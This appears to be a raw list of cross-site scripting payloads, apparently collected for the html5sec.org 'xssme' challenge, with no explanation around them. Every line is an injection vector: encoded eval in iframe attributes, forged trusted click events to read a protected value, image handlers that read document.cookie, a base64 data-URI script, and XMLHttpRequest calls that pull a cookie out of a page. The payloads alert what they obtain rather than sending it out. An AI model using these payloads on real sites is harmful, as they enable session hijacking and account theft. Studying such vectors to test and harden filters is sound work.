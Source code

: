 <iframe src=/ onload=eval(unescape(this.name.replace(/\/g,null))) name=fff%253Dnew%2520this.contentWindow.window.XMLHttpRequest%2528%2529%253Bfff.open%2528%2522GET%2522%252C%2522xssme2%2522%2529%253Bfff.onreadystatechange%253Dfunction%2528%2529%257Bif%2520%2528fff.readyState%253D%253D4%2520%2526%2526%2520fff.status%253D%253D200%2529%257Balert%2528fff.responseText%2529%253B%257D%257D%253Bfff.send%2528%2529%253B></iframe>">
<script>     function b() { return Safe.get(); } alert(b({type:String.fromCharCode(99,108,105,99,107),isTrusted:true})); </script> ">
<img src=http://www.google.fr/images/srpr/logo3w.png onload=alert(this.ownerDocument.cookie) width=0 height= 0 /> #">
<script>  function foo(elem, doc, text) {   elem.onclick = function (e) {    e.__defineGetter__(text[0], function () { return true })    alert(Safe.get());   };      var event = doc.createEvent(text[1]);   event.initEvent(text[2], true, true);   elem.dispatchEvent(event);  } </script> <img src=http://www.google.fr/images/srpr/logo3w.png onload=foo(this,this.ownerDocument,this.name.split(/,/)) name=isTrusted,MouseEvent,click width=0 height=0 /> # ">
<SCRIPT+FOR=document+EVENT=onreadystatechange>MouseEvent=function+MouseEvent(){};test=new+MouseEvent();test.isTrusted=true;test.type=%22click%22;getElementById(%22safe123%22).click=function()+{alert(Safe.get());};getElementById(%22safe123%22).click(test);</SCRIPT>#">
<script> var+xmlHttp+=+null; try+{ xmlHttp+=+new+XMLHttpRequest(); }+catch(e)+{} if+(xmlHttp)+{ xmlHttp.open('GET',+'/xssme2',+true); xmlHttp.onreadystatechange+=+function+()+{ if+(xmlHttp.readyState+==+4)+{ xmlHttp.responseText.match(/document.cookie%5Cs%2B=%5Cs%2B'(.*)'/gi); alert(RegExp.%241); } } xmlHttp.send(null); }; </script>#">
<video+onerror='javascript:MouseEvent=function+MouseEvent(){};test=new+MouseEvent();test.isTrusted=true;test.type=%22click%22;document.getElementById(%22safe123%22).click=function()+{alert(Safe.get());};document.getElementById(%22safe123%22).click(test);'><source>%23">
<script for=document event=onreadystatechange>getElementById('safe123').click()</script>">
<script> var+x+=+showModelessDialog+(this); alert(x.document.cookie); </script>">
<hr>
<script> location.href = 'data:text/html;base64,PHNjcmlwdD54PW5ldyBYTUxIdHRwUmVxdWVzdCgpO3gub3BlbigiR0VUIiwiaHR0cDovL3hzc21lLmh0bWw1c2VjLm9yZy94c3NtZTIvIix0cnVlKTt4Lm9ubG9hZD1mdW5jdGlvbigpIHsgYWxlcnQoeC5yZXNwb25zZVRleHQubWF0Y2goL2RvY3VtZW50LmNvb2tpZSA9ICcoLio/KScvKVsxXSl9O3guc2VuZChudWxsKTs8L3NjcmlwdD4='; </script>">
<iframe src=%22404%22 onload=%22frames[0].document.write(%26quot;<script>r=new XMLHttpRequest();r.open('GET','http://xssme.html5sec.org/xssme2',false);r.send(null);if(r.status==200){alert(r.responseText.substr(150,41));}<\/script>%26quot;)%22></iframe>">
<iframe src=%22404%22 onload=%22content.frames[0].document.write(%26quot;<script>r=new XMLHttpRequest();r.open('GET','http://xssme.html5sec.org/xssme2',false);r.send(null);if(r.status==200){alert(r.responseText.substr(150,41));}<\/script>%26quot;)%22></iframe>">
<iframe src=%22404%22 onload=%22self.frames[0].document.write(%26quot;<script>r=new XMLHttpRequest();r.open('GET','http://xssme.html5sec.org/xssme2',false);r.send(null);if(r.status==200){alert(r.responseText.substr(150,41));}<\/script>%26quot;)%22></iframe>">
<iframe src=%22404%22 onload=%22top.frames[0].document.write(%26quot;<script>r=new XMLHttpRequest();r.open('GET','http://xssme.html5sec.org/xssme2',false);r.send(null);if(r.status==200){alert(r.responseText.substr(150,41));}<\/script>%26quot;)%22></iframe>">
<script>var x = safe123.onclick;safe123.onclick = function(event) {var f = false;var o = { isTrusted: true };var a = [event, o, event];var get;event.__defineGetter__('type', function() {get = arguments.callee.caller.arguments.callee;return 'click';});var _alert = alert;alert = function() { alert = _alert };x.apply(null, a);(function() {arguments.__defineGetter__('0', function() { return a.pop(); });alert(get());})();};safe123.click();</script>#">
<iframe onload=%22write('<script>'%2Blocation.hash.substr(1)%2B'</script>')%22></iframe>#var xhr = new XMLHttpRequest();xhr.open('GET', 'http://xssme.html5sec.org/xssme2', true);xhr.onload = function() { alert(xhr.responseText.match(/cookie = '(.*?)'/)[1]) };xhr.send();">
<textarea id=ta></textarea><script>ta.appendChild(safe123.parentNode.previousSibling.previousSibling.childNodes[3].firstChild.cloneNode(true));alert(ta.value.match(/cookie = '(.*?)'/)[1])</script>">
<textarea id=ta onfocus=console.dir(event.currentTarget.ownerDocument.location.href=%26quot;javascript:\%26quot;%26lt;script%26gt;var%2520xhr%2520%253D%2520new%2520XMLHttpRequest()%253Bxhr.open('GET'%252C%2520'http%253A%252F%252Fhtml5sec.org%252Fxssme2'%252C%2520true)%253Bxhr.onload%2520%253D%2520function()%2520%257B%2520alert(xhr.responseText.match(%252Fcookie%2520%253D%2520'(.*%253F)'%252F)%255B1%255D)%2520%257D%253Bxhr.send()%253B%26lt;\/script%26gt;\%26quot;%26quot;) autofocus></textarea>">
<iframe onload=%22write('<script>'%2Blocation.hash.substr(1)%2B'</script>')%22></iframe>#var xhr = new XMLHttpRequest();xhr.open('GET', 'http://xssme.html5sec.org/xssme2', true);xhr.onload = function() { alert(xhr.responseText.match(/cookie = '(.*?)'/)[1]) };xhr.send();">
<textarea id=ta></textarea><script>ta.appendChild(safe123.parentNode.previousSibling.previousSibling.childNodes[3].firstChild.cloneNode(true));alert(ta.value.match(/cookie = '(.*?)'/)[1])</script>">
<script>function x(window) { eval(location.hash.substr(1)) }</script><iframe id=iframe src=%22javascript:parent.x(window)%22><iframe>#var xhr = new window.XMLHttpRequest();xhr.open('GET', 'http://xssme.html5sec.org/xssme2', true);xhr.onload = function() { alert(xhr.responseText.match(/cookie = '(.*?)'/)[1]) };xhr.send();">